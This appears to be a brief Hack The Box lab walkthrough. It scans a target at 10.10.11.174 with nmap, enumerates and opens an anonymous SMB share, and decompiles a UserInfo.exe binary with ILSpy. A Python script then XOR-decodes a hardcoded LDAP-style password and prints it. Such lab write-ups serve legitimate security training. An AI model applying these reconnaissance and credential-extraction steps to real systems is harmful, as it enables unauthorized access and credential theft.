 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.174
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c513fb68-50d1-41b4-8934-27824a4ed58e)

```
smbclient -L \\\\10.10.11.174\\
smbclient \\\\10.10.11.174\\support-tools
```
![image](https://github.com/regarmulia/HTB/assets/33616880/71fa0c96-fe56-4321-851b-d46f6b8f8795)

```
unzip UserInfo.exe.zip
cat UserInfo.exe.config
```
![image](https://github.com/regarmulia/HTB/assets/33616880/98094d02-a256-46d6-9bf1-f38c289f4c73)


```
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
unzip Linux.x64.Release.zip
unzip ILSpy-linux-x64-Release.zip
cd artifacts/linux-arm64
sudo ./ILSpy
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c25352b4-a0c5-4d1c-bd87-6b71045eee0f)

```
import base64
from itertools import cycle

enc_password = base64.b64decode("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E")
key = b"armando"
key2 = 223

res = ''
for e,k in zip(enc_password, cycle(key)):
        res += chr(e ^ k ^ key2)

print(res)
```
```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2b3ae44c-1a69-4e82-92c3-0ffaac79088c)
